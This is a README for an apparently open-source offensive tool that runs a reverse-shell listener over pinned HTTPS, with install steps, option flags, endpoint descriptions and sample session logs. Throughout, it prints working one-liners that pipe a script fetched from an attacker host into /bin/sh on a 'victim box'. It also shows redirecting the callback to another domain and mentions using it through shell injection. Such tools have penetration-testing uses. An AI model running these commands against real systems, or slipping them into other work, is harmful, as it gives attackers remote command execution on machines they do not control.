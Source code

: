 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via double cURL
- Self-signed TLS certificate, plus certificate pinning
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color
- IPv6-ready
- Non-zero [documentation](./doc/README.md)

For legal use only

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@dev
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@dev
go: downloading golang.org/x/sync v0.7.0
go: downloading github.com/magisterquis/goxterm v0.0.1-beta.2
go: downloading golang.org/x/net v0.27.0
go: downloading golang.org/x/tools v0.23.0
go: downloading golang.org/x/sys v0.22.0
go: downloading golang.org/x/text v0.16.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:

curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh

01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Input connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Output connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Shell is ready to go!
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL.

Keyboard Shortcuts:
Ctrl+O - Mute output for a couple of seconds (for if you cat a huge file)

Options:
  -callback-address address
        Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
        Optional callback template file, used if it exists
  -icanhazip
        Query icanhazip.com for a callback address
  -ipv6-one-liners
        Also print callback one-liners with IPv6 addresses
  -listen-address address
        Listen address (default "0.0.0.0:4444")
  -log file
        Optional file to which to write JSON logs
  -no-timestamps
        Don't print timestamps
  -one-shell
        Close listening socket when first shell connects
  -print-default-template
        Write the default template to stdout and exit
  -prompt string
        Terminal prompt; don't forget a trailing space (default "> ")
  -serve-files-from directory
        Optional directory from which to serve static files
  -tls-certificate-cache file
        Optional file in which to cache generated TLS certificate (default "/home/stuart/.cache/sstls/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/io`             | A bidirectional connection between you and the shell, kinda `/i` and `/o` at the same time.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate low PIDs.
`/{anythingelse}` | Either serves up files or 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default template is
[script.tmpl](internal/hsrv/script.tmpl).  It's re-read every time it's needed,
so feel free to change it as often as you'd like.

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.
